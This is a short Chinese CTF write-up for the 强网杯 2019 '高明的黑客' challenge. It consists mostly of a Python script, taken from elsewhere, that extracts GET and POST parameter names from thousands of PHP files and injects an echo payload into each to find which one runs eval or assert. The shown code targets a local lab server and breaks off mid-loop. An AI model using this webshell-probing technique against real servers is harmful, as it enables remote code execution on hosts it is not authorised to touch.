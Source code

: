 # 0x22.[强网杯 2019]高明的黑客

解压下来3k多个文件。。

考点其实就是代码的编写，不会，找的网上的一些。

```python
import os
import threading
from concurrent.futures.thread import ThreadPoolExecutor
 
import requests
 
session = requests.Session()
 
path = "D://phpStudy//PHPTutorial//WWW//src//"  # 文件夹目录
files = os.listdir(path)  # 得到文件夹下的所有文件名称
 
mutex = threading.Lock()
pool = ThreadPoolExecutor(max_workers=50)
 
def read_file(file):
    f = open(path + "/" + file);  # 打开文件
    iter_f = iter(f);  # 创建迭代器
    str = ""
    for line in iter_f:  # 遍历文件，一行行遍历，读取文本
        str = str + line
 
    # 获取一个页面内所有参数
    start = 0
    params = {}
    while str.find("$_GET['", start) != -1:
        pos2 = str.find("']", str.find("$_GET['", start) + 1)
        var = str[str.find("$_GET['", start) + 7: pos2]
        start = pos2 + 1
 
        params[var] = 'echo("glzjin");'
 
        # print(var)
 
    start = 0
    data = {}
    while str.find("$_POST['", start) != -1:
        pos2 = str.find("']", str.find("$_POST['", start) + 1)
        var = str[str.find("$_POST['", start) + 8: pos2]
        start = pos2 + 1
 
        data[var] = 'echo("glzjin");'
 
        # print(var)
 
    # eval test
    r = session.post('http://127.0.0.1/src/' + file, data=data, params=params)
    if r.text.find('glzjin') != -1:
        mutex.acquire()
        print(file + " found!")
        mutex.release()
 
    # assert test
    for i in params:
        params[i] = params[i][:-1]
 
    for i in data:
```